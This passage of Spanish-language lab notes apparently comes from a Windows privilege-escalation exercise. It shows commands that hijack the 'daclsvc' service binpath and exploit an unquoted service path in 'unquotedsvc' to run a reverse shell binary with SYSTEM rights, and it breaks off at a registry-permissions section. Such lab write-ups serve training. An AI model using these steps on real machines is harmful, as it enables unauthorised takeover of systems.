 Consultamos el estado de `daclsvc`
```
sc qc daclsvc
```
![[Pasted image 20240718135939.png]]

Configuramos el servicio para que ejecute nuestra reverse shell
```
`sc config daclsvc binpath= "\"C:\PrivEsc\reverse.exe\""`
```
![[Pasted image 20240718140435.png]]

Ahora cerramos la conexión que teniamos y volvemos a ponernos a la escucha con netcat y con la conexión que tenemos de xfreerdp levantamos el servicio
```
net start daclsvc
```
![[Pasted image 20240718140738.png]]

Y ya habremos escalado los privilegios
![[Pasted image 20240718140812.png]]

# **Service Exploits - Unquoted Service Path**
Revisamos el servicio `unquotedsvc` y encontramos que se ejecuta con privilegios de system y el binario no esta entre comillas
![[Pasted image 20240719081115.png]]

Revisamos con `accesschk.exe` los permisos y encontramos que podemos editar con el usuario user
```
C:\PrivEsc\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"
```
![[Pasted image 20240719081526.png]]

Copiamos nuestro payload en el servicio para que ejecute nuestro binario omitiendo el del sistema
```
copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"
```
![[Pasted image 20240719081631.png]]

Ahora cerramos la conexión y nos volvemos a poner en escucha con netcat y desde la conexión con xfreerdp iniciamos el servicio
```
net start unquotedsvc
```
![[Pasted image 20240719081749.png]]
![[Pasted image 20240719081804.png]]

# **Service Exploits - Weak Registry Permissions**
Ahora revisamos el registro `regsvc`
```
sc qc regsvc
```
![[Pasted image 20240719081957.png]]
